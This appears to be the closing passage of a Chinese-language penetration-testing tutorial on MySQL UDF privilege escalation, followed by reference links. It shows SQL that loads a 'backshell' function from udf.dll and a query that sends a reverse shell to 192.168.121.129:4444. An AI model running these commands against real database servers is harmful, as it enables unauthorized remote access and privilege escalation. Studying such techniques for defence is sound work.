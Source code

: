 ```
create function backshell returns string soname 'udf.dll';
```

执行`select backshell('192.168.121.129',4444);`反弹shell来提权

![image-20220321213128744](images/25.png)



参考链接

https://blog.csdn.net/qq_45300786/article/details/117202412

https://xz.aliyun.com/t/10373#toc-3

https://xz.aliyun.com/t/7392#toc-0

https://xz.aliyun.com/t/2719#toc-14

https://www.yuque.com/u21224612/nezuig/zi2b1b